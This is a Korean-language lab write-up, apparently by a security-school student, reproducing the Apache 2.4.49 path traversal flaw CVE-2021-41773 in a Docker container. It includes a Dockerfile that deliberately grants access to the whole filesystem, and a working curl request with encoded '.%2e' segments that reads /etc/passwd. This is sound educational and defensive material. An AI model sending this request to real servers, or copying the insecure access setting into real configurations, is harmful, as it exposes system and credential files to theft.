 # Apache HTTP Server Path Traversal (CVE-2021-41773)  
화이트햇 스쿨 3기 – 조민규 (@oureukk)

---

## 요약
- Apache HTTP Server 2.4.49 버전의 `mod_cgi` 경로 검증 로직에 결함이 있어, URL 인코딩된 `..` 시퀀스를 통해 문서 루트 밖의 임의 파일을 읽을 수 있음.  
- 공격자는 `/etc/passwd` 같은 시스템 파일은 물론, 웹 서버가 읽을 수 있는 모든 파일을 노출시킬 수 있음.  

---

## 환경 구성 및 실행

1. **Dockerfile 작성**  
   `Dockerfile`:
   ```dockerfile
   FROM httpd:2.4.49

   # bash 및 기타 유틸 설치
   RUN apt-get update && apt-get install -y bash

   # 간단한 CGI 스크립트 생성
   RUN printf '%s\n' '#!/bin/bash' 'echo "Content-type: text/plain"' 'echo' 'echo "Hello from CGI"' \
       > /usr/local/apache2/cgi-bin/hello.sh \
     && chmod +x /usr/local/apache2/cgi-bin/hello.sh

   #루트파일도 읽히도록 액세스 제어 변경
   RUN printf '%s\n' \
    '<Directory "/">' \
      '    Require all granted' \
    '</Directory>' \
    >> /usr/local/apache2/conf/httpd.conf
  '''
  
2. docker-compose.yml 작성  
   **docker-compose.yml**:  
   ```yaml
   version: "3.8"
   services:
     apache-vuln:
       build: .
       ports:
         - "8080:80"

3. 컨테이너 빌드 및 실행

   '''bash
   docker-compose up -d
   '''
   
4. 정상 동작 확인
   
   '''bash
   curl -i http://localhost:8080/cgi-bin/hello.sh
   '''
   
5. 취약점 Poc 호출
   '''bash
   curl -i "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"
   '''
   
---

## 결과
![image](https://github.com/user-attachments/assets/8241770b-6b3f-45b4-b8df-9ddbf5f97b4a)

- 'HTTP/1.1 200 OK'
- '/etc/passwd' 파일의 내용 출력 ( 경로 검증이 우회됨)
  
---

## 정리
- 취약 원인: Apache 2.4.49에서 URL 디코딩 후 경로 검증을 우회할 수 있어, .. 인코딩 시퀀스를 통해 문서 루트를 넘어선 파일 액세스가 허용됨.

- 영향도: 웹 서버가 읽을 수 있는 모든 시스템 파일 및 애플리케이션 파일 정보 노출 → 정보 유출, 내부 구조 파악, 추가 공격 발판 제공

---
